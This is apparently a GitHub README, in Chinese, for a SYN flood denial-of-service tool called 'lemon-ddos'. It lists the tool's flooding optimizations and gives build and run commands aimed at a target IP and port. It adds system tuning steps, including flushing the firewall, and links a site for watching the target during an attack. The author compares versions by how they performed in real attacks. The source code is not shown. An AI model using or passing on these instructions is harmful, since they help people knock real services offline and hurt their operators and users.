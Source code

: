 # lemon-ddos
# 性能优化亮点：
```
1.每个线程独立资源：
 独立套接字
 独立随机数种子
 独立数据包缓冲区
 独立统计计数器
2.网络优化：
 100MB 发送缓冲区 (#define SOCKET_BUFFER_SIZE (100 * 1024 * 1024))
 非阻塞 I/O 模式
 TCP_NODELAY 选项禁用 Nagle 算法
3.CPU 优化：
 线程绑定到特定 CPU 核心
 高性能随机数生成器 (比标准 rand() 快 10 倍)
 预计算数据包长度减少循环开销
4.内存优化：
 栈上固定缓冲区用于校验和计算
 预生成随机负载避免重复计算
```
# 编译指令：
```
gcc -O3 -march=native -mtune=native -pthread -o syn_flood syn_flood.c
```
# 运行建议：
## 以 root 权限运行：
```
sudo ./syn_flood 192.168.1.100 80 16 60 100 eth0
```
## 系统优化命令：
```
# 增加网络缓冲区
sudo sysctl -w net.core.wmem_max=12582912
sudo sysctl -w net.core.rmem_max=12582912

# 增加最大打开文件数
ulimit -n 1000000

# 禁用防火墙
sudo iptables -F
```

## 监控性能：
```
# 查看CPU使用情况（按核心）
mpstat -P ALL 1

# 查看网络吞吐量
iftop -i eth0

# 查看中断分布
watch -n1 'cat /proc/interrupts | grep eth0'
```

# 观测
攻击的时候可以在这里观测一下目标状态
https://tcp.ping.pe/
![image](https://github.com/user-attachments/assets/64ab015e-8505-4005-8d5a-531fb909ba2e)


# 对比
旧的
![image](https://github.com/user-attachments/assets/0fac75f3-e3af-46ff-b139-2aa62f27a3cd)
新的
![image](https://github.com/user-attachments/assets/cac62dd5-9f64-4f20-9c1e-f1bfaf873a1e)
从这次测试来看，新的效果不错，但是实战中，旧的好像打出过更好的效果，不过在此次截图的测试中，在目标节点上看两个的峰值差不多，建议使用新的

